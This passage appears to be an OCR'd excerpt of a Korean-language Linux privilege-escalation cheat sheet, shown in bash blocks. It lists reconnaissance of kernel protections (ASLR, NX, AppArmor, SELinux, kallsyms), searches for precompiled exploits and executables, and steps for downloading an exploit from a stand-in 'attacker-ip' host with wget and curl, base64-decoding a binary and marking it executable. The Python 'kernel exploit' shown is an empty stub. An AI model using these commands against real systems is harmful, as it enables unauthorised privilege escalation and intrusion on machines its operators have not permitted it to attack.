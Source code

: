 ```bash

# 4. 파이썬 기반 익스플로잇
cat > python_exploit.py << 'EOF'
#!/usr/bin/env python
import os
import subprocess
# 파이썬 기반 커널 익스플로잇
EOF
python python_exploit.py
```

### 🔧 고급 우회 기법

```bash
# 1. ASLR 우회 확인
cat /proc/sys/kernel/randomize_va_space
# 0 = 비활성화, 1 = mmap 랜덤화, 2 = 전체 랜덤화

# 2. 메모리 보호 확인
cat /proc/sys/kernel/exec-shield 2>/dev/null
cat /proc/sys/kernel/nx 2>/dev/null

# 3. AppArmor/SELinux 상태
aa-status 2>/dev/null
getenforce 2>/dev/null
sestatus 2>/dev/null

# 4. 커널 심볼 접근성
cat /proc/kallsyms | head -5
ls -la /boot/System.map* 2>/dev/null

# 5. 디버깅 정보 접근
cat /proc/kcore 2>/dev/null | head -c 100
ls -la /sys/kernel/debug/ 2>/dev/null
```

### ⚡ 응급상황 대안 (컴파일 불가시)

```bash
# 1. 사전 컴파일된 바이너리들 검색
locate exploit 2>/dev/null | head -10
find / -name "*exploit*" -type f 2>/dev/null | head -10
find / -name "*cve*" -type f 2>/dev/null | head -10

# 2. 다른 사용자의 홈에서 도구 찾기
find /home -name "*.c" -o -name "exploit*" 2>/dev/null | head -10

# 3. 임시 디렉토리들 검색
find /tmp /var/tmp /dev/shm -type f -executable 2>/dev/null

# 4. 네트워크로 바이너리 다운로드
wget http://attacker-ip:8000/exploit -O /tmp/exploit
curl http://attacker-ip:8000/exploit -o /tmp/exploit

# 5. base64 인코딩으로 바이너리 전송
echo "base64_encoded_binary" | base64 -d > /tmp/exploit
chmod +x /tmp/exploit

# 6. 크로스 컴파일 (로컬 머신에서)
# 32비트: gcc -m32 exploit.c -o exploit32 -static
# ARM: arm-linux-gnueabi-gcc exploit.c -o exploit_arm -static

# 7. 온라인 컴파일 서비스 활용
# exploit-db의 사전 컴파일된 바이너리들 검색
```